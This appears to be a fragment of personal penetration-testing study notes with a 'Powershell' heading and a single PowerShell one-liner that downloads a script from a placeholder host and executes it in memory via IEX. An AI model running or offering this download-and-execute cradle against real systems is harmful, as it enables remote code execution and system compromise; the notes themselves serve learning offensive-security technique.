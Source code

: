 ## Powershell

I need to really spend some time on this section. 

to launch a powershell session on a remote box you can use the following command:

	IEX(New-Object Net.WebClient).downloadString('http://ipaddress/filename')